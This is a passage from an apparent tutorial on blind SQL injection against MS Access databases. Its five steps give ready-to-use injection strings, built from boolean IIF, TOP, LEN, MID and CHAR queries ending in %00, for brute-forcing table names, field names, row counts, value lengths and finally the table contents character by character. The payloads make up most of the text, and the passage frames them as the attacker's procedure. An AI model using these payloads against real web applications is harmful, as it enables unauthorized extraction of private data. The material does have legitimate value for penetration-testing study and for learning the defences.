

Step 1: Bruteforce Table Name
You have to bruteforce the table name. You can use the wordlist listed below. Inject query :
' AND (SELECT TOP 1 1 FROM TableNameToBruteforce[i])%00
After injection you have to check the html response page. If table exists you should have the same html page layout (because "AND 1" has no effect on the query).
Step 2: Bruteforce Field Name
You have to find table fields name. Inject query :
' AND (SELECT TOP 1 FieldNameToBruteForce[j] FROM table)%00
As above, you should check the html page layout to inferece the field name existence .
Step 3: Bruteforce Table Rows Number
You have to find the number of table rows. This value will be used as "TAB_LEN" variable in the following queries/descriptions :
' AND IIF((SELECT COUNT(*) FROM validTableName) = X, 1, 0)%00
Where "X" is a number between 0 and an arbitrary value. As above you will find the correct number by checking html page layout.
Step 4: Bruteforce Item Length
You can bruteforce the value length of a generic "ATTRIB" field at row number 1 with this query :
' AND IIF((SELECT TOP 1 LEN(ATTRIB) FROM validTableName) = X, 1, 0)%00
You can bruteforce the value length of a generic "ATTRIB" field from row 2 to TAB_LEN with this query (here N is a number between 2 and TAB_LEN, the value bruteforced before) :
' AND IIF((SELECT TOP N LEN(ATTRIB) FROM validTableName WHERE ATTRIB<>'value1' AND ATTRIB<>'value2' ...(etc)...) = KKK,1,0)%00
"KKK" is a value between 0 and an arbitrary value, while ATTRIB<>'valueXXX' is used because we have to select a specific line to bruteforce. The unique way I found to do this is to select the desidered row with "TOP N",and then insert in the WHERE clause all the attribute values bruteforced before. I have to say that "ATTRIB" must be the table key-field. Here is an example :

You can bruteforce fields value length for row 1 in this way :
' AND IIF((SELECT TOP 1 LEN(A1) FROM Table) = KKK, 1, 0)%00
' AND IIF((SELECT TOP 1 LEN(A2) FROM Table) = KKK, 1, 0)%00
' AND IIF((SELECT TOP 1 LEN(A3) FROM Table) = KKK, 1, 0)%00
While you can bruteforce fields length value of second row in this way (assuming A1 as table key-field) :
' AND IIF((SELECT TOP 2 LEN(A1) FROM Table WHERE A1 <>'1111') = KKK, 1, 0)%00
' AND IIF((SELECT TOP 2 LEN(A2) FROM Table WHERE A1 <> '1111') = KKK, 1, 0)%00
' AND IIF((SELECT TOP 2 LEN(A3) FROM Table WHERE A1 <> '1111') = KKK, 1, 0)%00
The same for row number 3 :
' AND IIF((SELECT TOP 3 LEN(A1) FROM Table WHERE A1 <>'1111' AND A1 <> '0000') = KKK, 1, 0)%00
' AND IIF((SELECT TOP 3 LEN(A2) FROM Table WHERE A1 <> '1111' AND A1 <> '0000') = KKK, 1, 0)%00
' AND IIF((SELECT TOP 3 LEN(A3) FROM Table WHERE A1 <> '1111' AND A1 <> '0000') = KKK, 1, 0)%00
Obviusly, before bruteforcing field value length (at row between 2 and TAB_LEN) you have to bruteforce the previous row (key) field value (you have to put it in the WHERE clause).
Step 5: Bruteforce Table Content
Supposing that the attacker already knows the table and fields name, he will inject this query :
' AND IIF((SELECT TOP N MID(ATTRIBxxx, XXX, 1) FROM validTableName WHERE ATT_key <>'value1' AND ATT_key <>'value2'
... etc ... ) = CHAR(YYY), 1, 0)%00
Where "N" is the row to bruteforce, "XXX" is the x-th byte of "ATTRIBxxx" to bruteforce, "ATT_key" is the table key-field and "YYY" is a number between 0 and 255 (it represents the ASCII value for a char). Here we have to use the same method mentioned before to correctly bruteforce a specific row attribute content.